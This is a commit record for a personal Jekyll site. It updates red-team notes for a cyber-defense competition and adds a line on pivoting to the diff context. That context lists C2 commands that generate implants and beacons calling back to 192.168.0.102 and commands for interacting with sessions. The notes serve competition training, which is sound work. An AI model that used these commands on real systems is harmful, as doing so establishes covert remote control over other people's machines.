

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 900 px high, scrolled down 3142 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
updated redteam notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -125,6 +125,7 @@
   - `generate --wg {our_IP} --os linux` for an implant
   - `generate beacon --wg 192.168.0.102 -j {jitter} -S {wait_seconds} --os linux`
   - Windows: `generate --mtls 192.168.0.102 --os windows`
+  - If we need to pivot, use `--tcp-pivot {IP}` and then we can see our pivots with `pivots tcp`
 - `sessions` to show active sessions
   - `sessions -i {id}` to interact with session
     - `CTRL + d` to exit
```
